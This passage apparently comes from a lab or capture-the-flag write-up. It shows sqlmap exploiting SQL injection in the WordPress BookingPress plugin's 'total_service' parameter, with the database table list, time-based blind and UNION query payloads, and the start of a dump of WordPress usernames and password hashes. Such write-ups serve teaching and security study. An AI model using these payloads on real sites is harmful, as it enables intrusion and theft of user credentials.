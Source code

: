 		| wp_bookingpress_notifications        |
		| wp_bookingpress_payment_logs         |
		| wp_bookingpress_services             |
		| wp_bookingpress_servicesmeta         |
		| wp_bookingpress_settings             |
		| wp_commentmeta                       |
		| wp_comments                          |
		| wp_links                             |
		| wp_options                           |
		| wp_postmeta                          |
		| wp_posts                             |
		| wp_term_relationships                |
		| wp_term_taxonomy                     |
		| wp_termmeta                          |
		| wp_terms                             |
		| wp_usermeta                          |
		| wp_users                             |
		+--------------------------------------+
		```
		> Tables
		> - `wp_users`
		{: prompt-info}
	3. Dump `columns`
		```
		---
		Parameter: total_service (POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[12:07:12] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[12:07:12] [INFO] fetching entries of column(s) 'user_login,user_pass' for table 'wp_users' in database 'blog'
		[12:07:13] [INFO] recognized possible password hashes in column 'user_pass'
		do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
		do you want to crack them via a dictionary-based attack? [Y/n/q] n
		Database: blog
		Table: wp_users
		[2 entries]
		+------------+------------------------------------+
		| user_login | user_pass                          |